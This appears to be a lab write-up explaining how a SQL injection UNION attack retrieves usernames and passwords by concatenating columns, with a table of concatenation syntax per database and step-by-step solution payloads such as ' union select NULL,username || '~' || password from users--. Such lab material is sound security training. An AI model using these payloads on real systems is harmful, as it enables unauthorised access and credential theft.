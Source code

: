 We can retrieve multiple values together within this single column by concatenating the values together. We can include a separator to let us distinguish the combined values. For example, on Oracle we could submit the input:<br>
``' UNION SELECT username || '~' || password FROM users--``<br>
The results from the query contain all the usernames and passwords, for example:

>...<br>
administrator~s3cure<br>
wiener~peter<br>
carlos~montoya<br>
...

>Different databases use different syntax to perform string concatenation.

<table border ="1">
    <tr>
        <th>Database System</th>
        <th>Concatenation Syntax</th>
    </tr>
    <tr>
        <td>Oracle</td>
        <td>'foo'||'bar'</td>
    </tr>
    <tr>
        <td>Microsoft SQL Server</td>
        <td>'foo'+'bar'</td>
    </tr>
    <tr>
        <td>PostgreSQL</td>
        <td>'foo'||'bar'</td>
    </tr>
    <tr>
        <td>MySQL</td>
        <td>'foo' 'bar'(Space between strings)</td>
    </tr>
    <tr>
        <td>MySQL(alternative)</td>
        <td>CONCAT('foo','bar')</td>
    </tr>
</table>

**<h2>Problem:</h2>**
The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

**<h2>Solution:</h2>**
- Check for the number of columns using `` order by`` query, which gives us 2 columns.
- check for the data type of the columns using ``' union select 'a', NULL--`` query which gives error and again using ``'union select NULL,'a'--`` query so  second column contains text data type.
- We know that the **_users_** table contains username and password columns. 
- We concatenate the password and username column together in one column so remains one extra column with NULL value. ``' union select NULL,username || '~' || password from users--``
- Here ``~`` is a separator which separates the concatenated columns, we concatenated second column in this query because the first column did not contain text type data.
![alt text](/images/lab10multiplecolumn.png)